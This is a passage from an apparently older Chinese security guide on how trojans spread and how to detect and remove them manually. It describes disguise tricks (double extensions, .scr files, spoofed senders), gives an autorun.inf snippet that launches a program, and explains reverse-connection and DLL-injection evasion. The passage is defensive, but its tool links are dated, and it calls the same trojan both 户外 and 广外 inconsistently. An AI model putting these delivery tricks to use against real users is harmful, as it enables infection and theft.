- 1. 绝对不轻易相信对方发送过来的任何文件，对于你接收到的文件，一定要仔细检查，以防有诈。
- 2. 时刻关注你所使用的通讯软件的 Bug 的发现公告，并且在第一时间升级你的软件。
- 3. 不要在软件的资料中填写过分详细的个人资料，这样将会很容易让一些黑客通过社会工程学的知识黑掉你的计算机。

有些木马活动时伪装成 OICQ 的登录界面，借此欺骗用户输入密码，从而盗取用户账号。黑防以前刊登过介绍文章，希望朋友们多多留意。

##### 2. 通过 IRC

有些人习惯使用 IRC 与人交流。同样的，IRC 也存在着与 ICQ 同样的问题。IRC 也可能泄露你的 IP，也可以传送文件。很多新手进入 IRC，不过是为了得到免费的黄色图片或者是一些 Warez 软件，一些黑客就会利用这一点以及新手们对信息安全的无知，在 IRC 上建立一些所谓的黄色图片交流或者 Warez 交流的频道，并且通过该频道散播木马。让人不安的是，很多沉迷其中的人却并不能了解这件事情的危害程度，并且从未想过自己会受到木马攻击。

以下是一个在 IRC 上受到攻击的例子：

你在某个频道中，和一个 MM 聊得热火朝天。当然，你就会想看看对方的照片。于是你告诉她想看看她的样子，她告诉你，就在不久之前，她利用网上的某个屏保制作软件，制作了一个由自己相片组成的屏保程序，并且还半遮半掩地让你相信其中有一些比较暴露的所谓“艺术照”；然后她把 Screensaver.exe 发送给你，你毫不犹豫地收下来，并且在第一时间打开。Oh，女孩真漂亮呀，特别是那几张艺术照，更是让你热血沸腾。过了一会儿，屏保程序结束了，你心满意足，继续和对方聊天，好像什么都没发生过一样。可是，你知道那个屏保程序中携带了一些什么东西吗？在很多情况下，我可以说：恭喜你，你已经被木马感染了。

Trojan.exe 也可以被重命名成 Trojan.scr，就好像一个纯粹的屏保一样。可是，当你运行它以后，一切就不一样了。请记住：Windows 的可执行文件不光有 exe，scr 也属于可执行文件的一种。所以，对接收到的任何文件的扩展名都要分外留心。

和 ICQ 一样，把 Trojan.exe 重命名成 Trojan……（省略 150 个空格）.txt.exe，然后发送给你。你以为是文本文档，没有防备地打开了，我只好又一次恭喜你。

很多人在 Windows 的资源管理器中，对于文本文档图标的东西都不会太在意。请相信我，这绝对是信息安全的大忌，无论你打开任何文件，正确的心态都应该是小心翼翼。

##### 3. 通过攻击者的黑客攻击手段

我常常对那些不假思索就轻易打开电子邮件附件的人们抱以无奈的微笑，他们中的大部分都是刚上网的新手，对网络的一切都感到好奇和有趣，而天真地不去深究其中所蕴含的危险。让我们设想一个场景：你有一个非常要好的朋友 Alex，你知道他是一个优秀的 Visual Basic 编程者，并且最近一直忙于一个程序的开发，你对他开发的程序感到非常好奇，一直想知道他正在做什么。可是，不幸的是，你这种心情通过某种渠道被某个黑客知道了，他可以很轻松地通过一些免费的、四处可见的黑客软件，冒充 alex@example.com 的地址给你发一封电子邮件，告诉你他的项目完成了，把程序寄给你，让你分享他成功的喜悦。你接收到邮件，欣喜若狂，毫不犹豫地把附件中的 trojan.exe 打开执行了，这个过程中你一点怀疑都没有产生：“Alex 是我最好的朋友，他不会给我发恶意程序的。”这个潜意识的存在，让你在不知不觉中感染了木马。

整个过程无疑再次证明了“知识就是力量”这条真理。攻击者掌握了你心里的某种活动，并且利用这个信息，给你造成了巨大的危害。可是，如果你在接收到邮件的时候，不是仅仅在“发件人”一栏看到 alex@example.com 就放弃一切防备，而是仔细查看一下邮件头，你就会发现该邮件是一封由 .jp 的邮件服务器发送出来的，而这个服务器早就因为发送大量的垃圾邮件而臭名昭著。很显然，由于你的天真，你再次上了黑客的当。

还有一些人，在接收到主题为“Microsoft Internet Explorer Update”等类似内容的信件时，会感到欣喜和骄傲：“看，Microsoft 专门为我发来了软件升级通知，这是多么值得骄傲的事情啊！”可是我的劝告是，接收到这种类型的邮件时，你所作的事情应该是看都不看，毫不犹豫地按下 Delete 键，无情地把它们删除。Microsoft 从来不会通过这种电子邮件的形式发送他们的软件升级通知，你所看到的发件人 updates@microsoft.com 只不过是黑客们再一次利用了上面我们早就分析过的小把戏，诱骗你上当而已。

我之所以让你连看都不要看信的内容，直接删除，是因为 Outlook 等 E-mail 软件存在着很多漏洞，可以在你看信的同时执行一些代码，而这一切的过程都是你看不见的。所以，就算是单纯看看信的内容，也不是完全没有风险。

##### 4. 物理接触

相对于 Internet 上的攻防战，与你的计算机来一次面对面的亲密接触，其危害性之大不言而喻。你可以自己想像一下，一旦黑客可以坐在你的电脑前，对你的电脑进行操作，他所能干的事情还是只局限于木马吗？有时在办公室里面，你因为临时有事，出去了一下，而你的电脑仍然是打开的，这就给那些心怀不轨的人创造了绝好的机会。以下是一些他们惯用的伎俩，你看过之后，在生活中要时刻注意这些情况，确保自己的信息安全：

- 1. 你和你朋友在家里一块儿上网冲浪，看看网页，聊聊天。突然，你朋友说要喝水或者其他的什么东西，于是你起身到另一间房子里面去给他拿食物和饮料。就在你离去的空档，你朋友从裤兜里掏出一张磁盘，插入你的计算机驱动器，打开，运行，取出磁盘。等你回来的时候，你所见到的仍然是工作正常的计算机，可是谁能猜想到，短短的几分钟，木马已经进入了你的电脑了呢？
- 2. 假如你在某些情况下得罪了一些人，而你自己并不知道。这时，他们想通过木马的手段来报复你。于是，他们派出一个人来到你家做客，你们一块儿上网、聊天、玩，一切看起来都很正常。这时，电话铃响了，电话里，他/她（当然，这个时候，她更有用）很着急地说：“我有很重要的事情想和你说，你旁边有人吗？如果有的话，请换个地方好吧？我不想让别人听见我和你说的事情。”你很听话地走开了，然后一切和上面描述的一样。
- 3. 另外一种情况就是 CD-ROM 的自动运行功能。你也许早就知道，只要一张光盘的根目录下面的 autorun.inf 有如下内容：

```ini
[autorun]
open=setup.exe
icon=setup.exe
```

那么，当你把这张光盘放进光驱中，setup.exe 就会自动执行了。很多游戏光盘都采用这种形式来自动安装。可以想像，你从街边的小摊上花了五六元钱，买来一张你盼望已久的游戏，你把它放进光驱，然后游戏的 setup 自动开始了，你的心里绝对是高兴异常，根本不会想到，这个看似正常的 setup 界面后面，一些可能存在的恶意程序可以给你造成多大的损失。所以，安全起见，你应该把光驱的“自动运行”功能禁止掉：开始→设置→控制面板→系统→设备管理器→CDROM→属性→设置。这样操作下来，你就会看到可以设置你光驱属性的地方了。你这时应该把“自动运行”前面的勾去掉。

##### 5. 浏览器和 E-mail 软件的 Bug

对于浏览器和 E-mail 软件这种使用频率非常高的软件，每个电脑使用者都应该时刻关注它们的 Bug 和升级情况，随时保持自己的软件都是最新版。否则，一旦有人利用一些已知的漏洞对你进行攻击，你将在不知不觉中被其攻陷。例如，你使用旧版本的 IE 浏览器浏览网页，那么就有可能在既不下载也不执行任何软件的情况下被感染上木马；同样的事情也会发生在旧版本的 Outlook 和 Outlook Express 身上。所以，随时升级你的软件是至关重要的。下面两个地址是你了解你所使用的软件 Bug 的好地方，经常去看看，并且针对自身情况做出防范措施，对你自身的信息安全大有帮助：

- http://www.guninski.com/browsers.html
- http://www.guninski.com/netscape.html

##### 6. NetBIOS 的文件共享功能

如果你的 139 号端口开放着，那么很可能你已经设置了 NetBIOS 的文件和打印机共享服务。黑客可以通过这些服务给你上传一个木马程序，并且修改你机器的启动配置，然后通过 DoS 攻击让你的计算机死机，你只有重新启动计算机。很显然，这时木马已经自动运行了。所以，如果不是十分必要，请关闭文件和打印机共享的功能——你只需要在网络属性中，简单地把它们前面的勾去掉即可。

##### 7. 恶意站点和来路不明的共享软件

现在网上充斥着很多架设在免费服务器上面的黑客站点，里面的内容不外乎是和网络技术有关的文章、软件等。正好碰巧你对此很感兴趣，于是你在一个不起眼的黑客站点里面下载了一个你认为很好的软件，然后试着用它去攻击别人。这个过程中，你有没有想到过，你所下载的文件早就被这个站点的主人感染上了木马，然后诱骗你这种网络新手去上当受骗。尽管有些站点看起来相当专业，分类齐全，资料众多，连接的也都是一些知名网站；可是，我相信只要你用心观察一下站点，它在你心中的可信度马上就会降低很多个等级。

像 mIRC、QQ、ICQ、PGP 等很流行的网络软件，请一定到它们的官方站点下载最新版本使用。不要相信其他任何无名小站公布的消息。也许某天你在冲浪的时候，在一个地方看到了说有 mIRC 7.0 版本的下载，你看看自己的硬盘，自己的 mIRC 仍然是 6.0 的，于是你为了方便，没有去 mIRC 的官方站点核实一下该升级证明，而是随手点了一下升级说明旁边的下载连接，并且安装好所谓的新版本软件。很多情况下，木马就是这样进入了你的计算机。

还有很多时候，你的机器受到木马感染是由于网管或者其他工作人员的不负责任造成的。如果你是一个大型网络安全公司的网管，某天接收到一个人给你发的说是他自己编写的 UDP 攻击工具，而你没有进行仔细的病毒和木马扫描工作，直接把它放上了网站，这样，你的网站访问者们有很大的可能就会遭殃。我就知道一个这样的故事：一家游戏杂志有一次搞了一个活动，为了让广大的游戏爱好者加入到他们的游戏编程中来，于是发布了一个通知，让大家自己编写有趣的 Demo 程序，然后寄给编辑，择优在他们的 CD 发表。一个家伙写了一个非常漂亮的 Demo，并且内嵌了一个自编的木马。编辑收到后，简单地用杀毒软件查了，没发现意外，然后运行了一次，觉得 Demo 做得不错，于是把 Demo 放到了他们的 CD 中，结果那一期买了他们 CD 的朋友都中了木马，造成了很坏的影响。值得一提的是，现有的杀毒软件，能查杀的病毒和木马数量都非常有限，往往要许多种杀毒软件结合使用，才能确保程序的干净安全。

一些共享或者免费软件也是非常危险的，没有人能保证软件的作者心术绝对正直，在上 10 万行的 C++ 代码中，插入几千条木马代码，并不是每个人都有能力能够觉察得到的。所以，对于你经常使用的这些共享或者免费软件，要经常使用搜索引擎搜索关于它们的信息。一般如果有人发现一个比较流行的共享软件有未公开的功能的话，都会在网上公布他的发现。所以，如果你自己没有发现问题的能力，你就应该勤于搜索，不要偷懒。

#### 九、如何发现木马

对于一些常见的木马，如 SUB7、BO2000、冰河等等，它们都是采用打开 TCP 端口监听和写入注册表启动等方式，使用木马克星之类的软件可以检测到这些木马。这些检测木马的软件大多都是利用检测 TCP 连接、注册表等信息来判断是否有木马入侵，因此我们也可以通过手工来侦测木马。

也许你会对硬盘空间莫名其妙减少 500M 感到习以为常——这的确算不了什么，天知道 Windows 的临时文件和那些乌七八糟的游戏吞噬了自己多少硬盘空间。可是，还是有一些现象会让你感到警觉。一旦你觉得你自己的电脑感染了木马，你应该马上用杀毒软件检查一下自己的计算机，然后不管结果如何，就算是 Norton 告诉你你的机器没有木马，你也应该再亲自做一次更深入的调查，确保自己机器安全。经常关注新的和出名的木马特性报告，这将对你诊断自己的计算机问题很有帮助。

- 1. 当你浏览一个网站，弹出来一些广告窗口是很正常的事情，可是如果你根本没有打开浏览器，而浏览器突然自己打开，并且进入某个网站，那么你要小心。
- 2. 你正在操作电脑，突然一个警告框或者是询问框弹出来，问一些你从来没有在电脑上接触过的问题。
- 3. 你的 Windows 系统配置老是自动莫名其妙地被更改。比如屏保显示的文字、时间和日期、声音大小、鼠标灵敏度，还有 CD-ROM 的自动运行配置。
- 4. 硬盘老没缘由地读盘，软驱灯经常自己亮起，网络连接及鼠标屏幕出现异常现象。

这时，最简单的方法就是使用 `netstat -a` 命令查看。你可以通过这个命令发现所有网络连接，如果这时有攻击者通过木马连接，你可以通过这些信息发现异常。通过端口扫描的方法也可以发现一些弱智的木马，特别是一些早期的木马，它们捆绑的端口不能更改，通过扫描这些固定端口也可以发现木马是否被植入。

当然，没有上面的种种现象并不代表你就绝对安全。有些人攻击你的机器不过是想寻找一个跳板，做更重要的事情；可是有些人攻击你的计算机纯粹是为了好玩。对于纯粹出于好玩目的的攻击者，你可以很容易地发现攻击痕迹；对于那些隐藏得很深，并且想把你的机器变成一台他可以长期使用的肉鸡的黑客们，你的检查工作将变得异常艰苦，并且需要你对入侵和木马有超人的敏感度，而这些能力，都是在平常的电脑使用过程中积累而成的。

我们还可以通过软件来检查系统进程以发现木马。如利用进程管理软件来查看进程，如果发现可疑进程就杀死它。那么，如何知道哪个进程是可疑的呢？教你一个笨方法，有以下进程绝对是正常的：EXPLORER.EXE、INTERNAT.EXE、KERNEL32.DLL、MPREXE.EXE、MSGSRV32.EXE、SPOOL32.EXE、IEXPLORE.EXE（如果打开了 IE），而出现了其他的、你没有运行的程序进程就很可疑了。一句话，具体情况具体分析。

#### 十、被感染后的紧急措施

如果不幸你的计算机已经被木马光临过了，你的系统文件被黑客改得一塌糊涂，硬盘上稀里糊涂地多出来一大堆乱七八糟的文件，很多重要的数据也可能被黑客窃取。于是你通过各种渠道彻底杀除了木马（比如 Format C:/q，呵呵……），费了很大的力气重新整理了文件系统，累坏了的你喘着粗气，发誓一定再不让你的计算机感染木马。可是冷静下来后，为了最大限度地减少损失，你能想到什么好的善后措施么？这里给你提供 5 条建议，希望可以帮助你：- 1. 所有的账号和密码都要马上更改，例如拨号连接、ICQ、mIRC、FTP、你的个人站点、免费邮箱等等，凡是需要密码的地方，你都要把密码尽快改过来。黑客们为了隐藏自己的行踪，一般来说，不会给你的邮箱和ICQ更改密码，所以，尽管你的密码被盗，你仍然有机会把密码改掉。同时还要注意你的注册信息——一些黑客会利用盗取到的密码，更改你的注册信息，例如你忘记密码时，一些邮件服务器会通过提问的方式，让你找回密码，他们不修改你的密码，而是修改你问题的答案，这样，就算你改了密码，他们也可以再一次很轻松地得到你的新密码，所以，注册信息也是不可忽视的一个方面。
- 2. 发信给你的所有朋友，询问是否最近收到过你这个E-mail地址发出去的邮件。黑客可能会利用你朋友对你的信任，发送各种木马给你的朋友，让你的朋友跟着你遭殃。E-mail、ICQ上的朋友也要注意提醒，让他们检查一下硬盘和收到的信件。
- 3. 删除所有你硬盘上原来没有的东西，天知道那些有着奇怪名字的文件里面暗藏着什么危险的机关。
- 4. 检查一次硬盘上是否有病毒存在。
- 5. 连接Internet前后，观察一下系统的进程情况，随时掌握正在运行的各种程序的信息。

#### 十一、反病毒软件

在过去，反病毒软件的任务很简单，只要查杀病毒和一小部分非常出名的木马程序就可以了。可是随着电脑技术和网络技术的飞速发展和木马程序的广泛传播，越来越多的电脑使用者意识到，要使自己的计算机处于安全状态，不仅仅要防备病毒的袭击，木马程序也是必须给予充分重视的方面。所以，一些杀毒软件也加入了越来越多的木马监测模块。可是，这些杀毒软件监测木马的方式和它们监测病毒的方式一样，都是通过可执行文件的一些特殊的“签名”（或者称为“记号”）来达到目的，而这种检测方式在今天，已经不能检测出所有的木马了。因为一方面是木马的数量每天都在以惊人的速度增加，另一方面是木马编写者的水平越来越高，创造出了很多新的编程方法，让木马逃脱杀毒引擎的检查（从这方面来说，木马的确和病毒很相像。其实很多时候，我们的确很难分辨得出谁是病毒，谁是木马）。

每天都有大量的木马被公布出来，杀毒软件的病毒库也在随时更新。可是，很少有用户能够注意自己病毒库的随时更新，他们总是以为购买了一套杀毒软件并且正确安装了以后就可以高枕无忧，直到病毒或者木马进入了他们的计算机以后，他们才追悔莫及。每天花上几分钟从病毒公司的网站升级一下自己使用的杀毒软件，并不会浪费你多少时间，却对你计算机的安全性提高非常有帮助。

每当你从网上下载了一个新的程序，好的习惯是先用你的杀毒软件检查一遍，确保无误后再使用；对于你觉得有问题的程序，最安全的方法是把它送到你使用的杀毒软件公司的软件实验室去，让专家帮助你检查它。

尽管如此，如果你对你的信息安全要求很高，一套单独的反病毒软件仍然是满足不了需要的——你还需要一套专门的防木马软件与其配套使用，才能取得更好的效果。

#### 十二、反木马软件

这里列出的是全世界最知名的反木马软件的介绍和它们的网站，我强烈建议大家去这些网站看看，从中选择出一套最适合你自己的反木马软件。

- 1. 木马克星

木马克星是国人开发的一款查杀木马软件，可以查杀5021种国际木马、112种电子邮件木马，保证查杀冰河类文件关联木马、QQ类寄生木马、ICMP类幽灵木马、网络神偷类反弹木马。内置木马防火墙，任何黑客试图与本机建立连接，都需要木马克星确认，不仅可以查杀木马，更可以查黑客。该软件是动态监视网络与静态特征字扫描的完美结合，可以查杀的木马种类非常多，尤为难得的是对国产木马的查杀效果非常好，对新木马的反应速度非常快，并且占用系统资源也不多，强烈推荐！下载地址：http://gt.onlinedown.net/down/iparmor.exe，见图7-1-3。


图7-1-3

### 2. TDS-3

TDS全称为Trojan Defence Suite（木马防卫系统）。从名字上就可以知道这是一套对信息安全有要求的电脑用户必备的安全软件。它拥有许多其他反木马软件所不具备的特色功能。由于它功能齐全，选项繁多，如果你是新手的话，你将要花一些时间阅读使用说明，从而熟悉它的强大功能和使用方法。

网址：http://tds.diamondcs.com.au/

### 3. LockDown2000

这是一套非常优秀的反木马软件包，不仅拥有数量庞大的木马资料库，而且对于很多知名黑客工具的检测也独具特色；它还可以帮助你实时监测你的系统文件变化、运行进程资料以及注册表的修改。更加详细的介绍，可以从它的网站 http://www.lockdown2000.com 获得。

### 4. TFAK5

全称为Trojans First Aid Kit，是一个由SnakByte开发的木马检测软件，拥有许多非常有特色的功能。最出名的一项是它本身可以当作很多知名木马的客户端使用。

下载地址：http://www.snake-basket.de/tfak/TFAK5.zip

### 5. Trojan Remover

Trojan Remover是一个专门用来清除特洛伊木马和自动修复系统文件的工具，能够检查系统登录文件、扫描WIN.INI、SYSTEM.INI和系统登录文件，且扫描完成后会产生Log信息文件，并帮你自动清除特洛伊木马和修复系统文件。下载地址为 http://gwbn.onlinedown.net/down/trjsetup.exe ，如图7-1-4。


图7-1-4

### 6. Pest Patrol

此软件不光可以检测数量众多的木马，对于很多黑客软件和间谍软件的检测能力也是一流。

网址：http://www.safersite.com/

### 7. Tauscan

Tauscan必备软件之一，其最大特色是可以检测其木马库中没有收录的未知木马，官方主页：http://www.agnitum.com/products/tauscan/

### 8. The Cleaner

这可能是目前最好的反木马工具，也是目前查木马数量最多的工具软件。The Cleaner可在目前主要的Windows平台如Windows 9x/NT/2000/XP中应用。它最招人喜爱的地方是可以随时自动升级，只要轻点UPDATE按钮即可，不像LOCKDOWN还要查你的密码，绝对是查木马工具的首选。它的实时监控程序TCA可即时显示当前所有运行程序并有详细的描述信息，是你了解系统的好帮手。可到 http://newhua.ruyi.com/down/cleaner3.exe 下载。界面如图7-1-5所示。

### 9. PC Door Guard

是一款木马检测软件，并且允许你监控特定文件和文件夹的读写操作。相关站点：http://www.trojanclinic.com/pdg.html

### 10. Trojan Hunter

是一款非常小巧、易于上手的木马检测软件，地址：http://www.mischel.dns.org/trojanhunter.jsp

### 11. LogMonitor

LogMonitor是非常专业的文件和目录实时监控软件，对你指定的任何文件和目录，都会忠实详尽地记录所有的读写操作。更加难得的是，尽管它功能如此强大，使用却异常简单，任何人都能轻松上手。

主页：http://logmon.bitrix.ru/logmon/eng/

### 12. PrcView

这是一款专业而强大的进程管理工具，可以非常详细地显示当前系统运行的各个进程的各种信息，包括非常详细的进程初始化数据、进程建立时间、进程版本、所使用的DLL名、创建的所有线程的信息、进程的堆和内存分配情况。PrcView还允许你结束一个指定的进程，为特定的线程配上特定的Debug程序等。可以在Win95/Win98/WinNT平台上顺利运行，并且有GUI和命令行两种版本，功能非常强大，强烈推荐使用。界面如图7-1-6所示。


下载地址：http://sq.onlinedown.net/down/HAF-PrcView3538-Ronnier.zip

### 13. XNetStat

GUI界面的Windows程序，帮助你监控你机器上所有打开的端口。从该地址可以得到该软件：http://packetstormsecurity.org/Win/netstat.zip

### 14. ConSeal PC FIREWALL

如果你对于TCP/IP等常用网络协议有一定的了解，那么这个防火墙将非常适合你。通过合理的配置，它将非常忠实地把你的计算机置于强大的保护力量之下。详细信息可以访问：http://www.consealfirewall.com/

### 15. Filemon

Filemon是文件监视工具。可监视系统中指定文件运行状况，如指定文件打开了哪个文件、关闭了哪个文件、对哪个文件进行了数据读取等。通过它，你指定监控的文件有任何读、写、打开其他文件的操作都能被它监视下来，并提供完整的报告信息。你可以利用Filemon监控文件系统，以便窥视木马的一举一动。界面如图7-1-6所示。

下载地址：http://newhua.ruyi.com/down/FILEMON.ZIP

### 16. 注册表监视工具Regmon等

注册表监视工具主要有RegShot、Regmon或RegSnap等。在微软操作系统中，众多的设置都存放在注册表中，注册表是Windows的核心数据库，表中存放着各种参数，直接控制着Windows的启动、硬件驱动程序的装载以及一些Windows应用程序的正常运行。在应用软件安装时，有可能将一些必要的信息放进去，如安装时间、使用次数、注册码等，其中也有我们感兴趣的服务端所建键值等信息。RegShot、Regmon或RegSnap就是监视注册表变化的工具，通过它可以了解、监视应用程序在注册表中的动作，我们可以利用它们来监视可疑程序（很可能是木马服务端程序哦）在注册表中的变化，界面如图7-1-7所示。

Regmon下载地址：


图7-1-7

http://www.newhua.com.cn/down/regmonitor.exe

当然，还有许多反病毒软件也具有一些反木马的功能，而且功能还可以，如金山毒霸、瑞星等，建议你也安装一个。由于杂志以前对此介绍过，就不多说了。

## 十五、防范木马的建议

前面讲了这么多关于木马的知识，文章的最后，给大家来一次防范木马的建议大集合，其中也许有些你以前听说过，有些没有，但是没关系，我写这个部分的目的就是让所有阅读这个部分的朋友都能从中受益：

- 1. 绝对不要轻易相信从任何地方得来的任何文件，就算是以你最好的朋友的名义给你的文件也不例外。如果你确实需要这个文件，请一定做好彻底检查。
- 2. 双击文件之前，搞清楚文件的类型——到底这是一个纯粹的`.doc`文档，还是一个可执行文件却有着`.doc`文件的外衣呢？
- 3. 坚持每天升级你的反病毒软件和反木马软件程序。现在很多这种软件都有任务编排功能，你完全可以利用它自动更新。可以让软件在夜晚你睡觉的时候，自动执行杀毒和升级程序，何乐而不为？
- 4. 确保你所使用的软件是最新版，并且关注各大软件BBS讨论版，争取最大限度地了解你所使用的软件。很多软件都有自动检查版本更新的选项，只要打上一个勾，每次执行该程序，都会自动检查有无更新版本发布，非常方便。
- 5. 经常检查计算机上运行的进程，这不光可以有助于你发现木马，还可以帮助你学习很多计算机知识。
- 6. 从不知名的小站下载软件使用是非常危险的，切忌！
- 7. 一些共享软件和免费软件也有含有恶意代码的可能，请留意各大网站的通报。
- 8. 仔细阅读你的杀毒软件的说明书，争取发挥软件的最大功用。
- 9. 注意检查启动组和Win.ini以及System.ini、winstart.bat、wininit.ini、Autoexec.bat、Config等文件。
- 10. 注意系统中常用文件的长度，木马如果捆绑在其中，长度就会发生变化，这是发现捆绑木马的好方法。
- 11. 注意上网时电脑所用端口，对1024端口以上的不连续端口要密切注意（可以通过键入：netstat -a命令来查看输出列表中的“Local Address”项，看看有什么端口是开启的）。下面的地址是一个著名木马常用端口列表：  
  http://www.simovits.com/trojans/trojans.html
- 12. 如果你是一个木马爱好者，喜欢收集和研究各种木马，那么你也要对你的计算机分外小心。
- 13. 最后一条是特别建议：发现情况不对立即断线。尽管造成上网速度突然变慢的原因有很多，但有理由怀疑由特洛伊木马造成的也是有根据的：当入侵者使用特洛伊的客户端程序访问你的机器时，会与你的正常访问抢占带宽，特别是当入侵者从远端下载用户硬盘上的文件时，正常访问会变得奇慢无比！这时，你可以双击任务栏右下角的连接图标，仔细观察一下“已发送字节”项，如果数字变化成1~3Kbps（每秒1~3000字节），几乎可以确认有人在下载你的硬盘文件！除非你正在使用FTP功能。当发现上述可疑迹象后，你所能做的就是立即断线，然后对硬盘有无特洛伊木马进行认真的检查。

最后要说的是，虽然木马的危害如此之大，可是只要我们平常使用计算机的时候注意防范，多多注意，还是可以保护自己，不受木马攻击的。

## 7.2 在DOS下也可查杀木马

大家知道，查杀木马很麻烦，要动用的“兵器”很多：杀毒软件如金山毒霸，专门的查杀木马软件如木马克星，进程管理软件如柳叶擦眼，端口扫描工具如portscan……实在是太浪费系统资源，效果也不见得好。其实，完全不必这么兴师动众，在DOS或命令行下就可以解决问题。

首先，说说原理。由于木马是基于远程控制的程序，因此中木马者的机器一般都开有特定的端口（端口即控制端和服务端之间的数据入口，通过这个入口，数据可直达控制端程序或木马程序）。比方说如果中了木马“灰鸽子”，则8225端口会被打开；如果中了“黑洞2001”，则2001端口会被开放，网络公牛用的则是23444端口……如果你发现了这些端口被占用了，基本上就可以判定：你中木马了！这也是我们为什么要用端口扫描工具扫描自己电脑的原因——通过扫描自己电脑的端口，就可以知道是否有木马存在！

当然，以上只是以木马未被配置或默认情况来说的，实际情况可能是木马所开端口不是这些。但万变不离其宗，木马要传递消息必然要使用特定的端口（针对目前绝大多数木马而言），因此我们可以通过这个木马的小辫子来抓住它！

一般说来，一台个人用的电脑，在正常情况下，开机后最多只有137、138、139这3个端口开放。若上网冲浪会有其他端口，这是本机与网上主机通信时打开的，比如说，用IE浏览网页会打开连续的端口：1025、1026、1027……使用QQ会打开4000、4001端口……而木马多用1024以上的端口。因此，发现有大端口被打开，则很有可能是木马所开，这就是我们在DOS下查杀木马的理论基础之一：扫描本地端口可以发现木马！

通过扫描端口可以知道，哪个端口被打开，正与Internet上哪个IP地址通信，这样可以及时发现并拦截非法连接。用DOS命令`netstat -n`就可以看到本机所有打开的端口，如图7-2-1所示。如果发现有类似23444之类的高端口有连接建立，就要小心点，你可能中木马了！赶快断线下网好好查查吧！


图7-2-1

上面说的是在DOS下手工扫描端口的方法，如果还能做到手工查杀木马进程那就更好了。其实，这也是可以办到的。条件是你使用的操作系统是Win2000才可以。在Win2000的光盘里，找到`support\tools`文件夹，里面有一个`*.msi`文件，运行它，会安装Win2000的附加工具。安装完成后，在`C:\Program Files`下出现一个名为Support Tools的文件夹。在该文件夹中有两个文件：kill.exe和tlist.exe，这两个小程序对我们非常有用。

TList是任务与进程显示工具，它的作用是可以列出机器中加载的全部任务、进程名字及PID号。只使用TList这个命令，不使用任何参数，就可以列出正在运行的进程名称、PID号、窗口标题文字（如果有的话）。kill.exe可以杀死进程，用`kill pid`命令即可，其中的pid代表进程号，运行tlist后可以看到该进程号。

明白了道理，让我们正式开始吧。打开cmd命令行，键入TList，是不是看到很多文件？而且格式都是一行数字后跟一个应用程序的名字，就像下边所列出的那样：

```text
0    System Idle Process
2    System
20   smss.exe
26   csrss.exe
34   WINLOGON.EXE
42   SERVICES.EXE
45   LSASS.EXE
72   SPOOLSS.EXE
91   NETTIME.EXE
64   navapsvc.exe
……
198  Notepad Untitled -> Notepad
214  TLIST.EXE
```

知道tlist命令的作用了吧？第一部分（即数字）就是前面提到的“pid”，是进程号。如果我们想要杀掉某个进程的话，只要使用命令`kill pid`就可以了。例如198即为正在运行的记事本程序Notepad.exe的进程号，要想终止该进程，键入`kill 198`即可。如果要杀木马的进程，用同样的方法即可。是不是很简单啊？

好了，就说到这里，欢迎大家批评指导。

## 7.3 三款户外木马的手工清除方法

户外木马特指户外程序员网络（前户外女生网络小组）编制的木马，主要有户外男生、户外女生和户外幽灵这三款。由于这三款木马都比较隐蔽，在技术上也有其先进的地方，因此导致对它们的查杀非常不容易，中了这三款木马的用户也因此变多。所以在此说说它们的手工清除方法。

## 一、户外男生的清除方法

户外男生是最近刚刚出现的木马，目前许多杀毒软件都无法正确查杀它，比方说最新的瑞星15.29就无法识别出该木马。户外男生除了具有一般普通木马应该具有的特点以外，还具备以下独有的特色技术：

- 1. 客户端高度模仿Windows资源管理器，这使得它对远程服务端操作起来异常方便，就像在本地电脑上操作一样简便。
- 2. 强大的文件操作功能：删除、上传、下载远程主机上的文件可以随意进行。
- 3. 运用了反弹端口原理与线程插入技术：户外男生利用DLL插入线程技术来防止进程被终止，服务端运行时没有进程！所有网络操作均插入到其他应用程序的进程中完成，这使得即便是具有“应用程序访问权限”功能的防火墙也形同虚设！而反弹端口技术的使用，使得该木马的主动性大大加强。我们知道，传统型的木马不能访问装有防火墙和在局域网内部的服务端主机，但反弹端口木马就不一样了。木马开发者分析了防火墙的特性后发现，防火墙对于连入的连接往往会进行非常严格的过滤，但是对于连出的连接却疏于防范。于是，与一般的木马软件相反，反弹端口型软件的服务端（被控制端）主动连接客户端（控制端），为了隐蔽起见，客户端的监听端口一般开在80（提供HTTP服务的端口），这样，即便用户使用端口扫描软件检查自己的端口，发现的也是类似`TCP UserIP:1026 ControllerIP:80 ESTABLISHED`的情况，稍微疏忽一点你就会以为是自己在浏览网页（防火墙也会这么认为的）。

如果不小心运行户外男生服务端程序，会在`C:\winnt\system32`文件夹下生成gwboy.exe和gwboydll.dll两个文件，文件大小都为116KB。其中，gwboy.exe开机则自动运行，gwboydll.dll则是实现线程插入技术的主文件。当木马被激活后，该dll会注入到explorer.exe进程，这一点可以通过进程管理软件，如Windows优化大师自带的进程管理软件或PrcView等查看到。你无法终止该进程，因为终止explorer.exe进程后，gwboydll.dll马上插入另一正常系统进程中，这也正是户外男生的可怕之处！

清除步骤：

- 1. 清理注册表。  
  打开注册表编辑器，展开到`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`下，删除字符串值gwboy.exe。然后到`HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID`下，删除ID为`{5AEA4AC0-146E-11D2-A96E-000000000009}`的键及其下所有子键和值。接下来，点击“编辑”菜单中的“查找”，在注册表编辑器中搜索gwboydll.dll，找到所有和它有关的注册表项，全部删除。注意，这个dll文件的名字是可以随意变化的，这里只是以默认状况下为例来说的，所以才在注册表中查找gwboydll.dll文件。对于您来说，您可以在system32系统文件夹中查找文件大小为116KB的dll文件，它就是户外男生的dll文件，找到后复制其文件名，然后再到注册表中搜索，找到后删除相应注册表项就可以了。因为户外男生运行之后随机写入注册表使得dll能够自动运行……行，并且在注册表中的位置也是变化的，所以才这么麻烦，这也正是木马“广外男生”厉害之处！

### 2. 删除木马文件

删除 system32 目录下的 gwboy.exe。然后进入纯 DOS 下，输入 `del winnt\system32\gwboydll.dll` 命令，删除 system32 目录中的 gwboydll.dll 文件。

好了，到此这个广外男生就被我们给清除出去了。

#### 二、木马广外女生清除方法

广外女生除了具有一般木马所拥有的功能以外，它还会自动检查中木马的电脑进程中是否含有“金山毒霸”“防火墙”“iparmor”“tcmonitor”“实时监控”“lockdown”“kill”“天网”等字样，如果发现就将该进程终止，也就是说广外女生会使防火墙完全失去作用！这样你的网络大门就完全敞开了，给你下木马的人就可以为所欲为！

